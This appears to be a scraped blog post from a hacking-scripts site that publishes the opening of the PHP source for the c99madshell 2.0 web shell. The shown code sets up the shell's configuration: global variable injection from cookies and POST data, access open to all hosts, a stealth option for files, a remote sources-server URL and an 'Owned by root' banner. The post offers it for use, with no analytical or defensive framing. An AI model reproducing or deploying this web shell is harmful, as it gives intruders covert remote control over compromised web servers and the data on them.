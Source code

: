 ```yaml
---
id: 219
title: c99madshell Script
author: admin
layout: post
guid: http://hackingscripts.com/?p=219
permalink: /c99madshell-script/
categories:
  - C99
  - PHP
tags:
  - C99
  - PHP
---
```

This is the &#8216;2.0 madnet edition&#8217; of the [original c99 shell][1]

### c99madshell Source Code

<pre class="brush: php; title: ; notranslate" title="">&lt;?php
if (!function_exists("getmicrotime")) {function getmicrotime() {list($usec, $sec) = explode(" ", microtime()); return ((float)$usec + (float)$sec);}}
error_reporting(5);
@ignore_user_abort(TRUE);
@set_magic_quotes_runtime(0);
$win = strtolower(substr(PHP_OS,0,3)) == "win";
define("starttime",getmicrotime());
if (get_magic_quotes_gpc()) {if (!function_exists("strips")) {function strips(&$arr,$k="") {if (is_array($arr)) {foreach($arr as $k=&gt;$v) {if (strtoupper($k) != "GLOBALS") {strips($arr["$k"]);}}} else {$arr = stripslashes($arr);}}} strips($GLOBALS);}
$_REQUEST = array_merge($_COOKIE,$_POST);
foreach($_REQUEST as $k=&gt;$v) {if (!isset($$k)) {$$k = $v;}}
$shver = "2.0 madnet edition";
if (empty($surl))
{
 $surl = $_SERVER['PHP_SELF'];
}
$surl = htmlspecialchars($surl);

$timelimit = 0;
$host_allow = array("*");
$login_txt = "Admin area";
$accessdeniedmess = "&lt;a href=\"http://securityprobe.net\"&gt;c99madshell v.".$shver."&lt;/a&gt;: access denied";
$gzipencode = TRUE;
$c99sh_sourcesurl = "http://ccteam.ru/files/c99sh_sources/"; //Sources-server
$filestealth = TRUE;
$donated_html = "&lt;center&gt;&lt;b&gt;Owned by root&lt;/b&gt;&lt;/center&gt;";
$donated_act = array("");
$curdir = "./";
$tmpdir = "";
$tmpdir_log = "./";
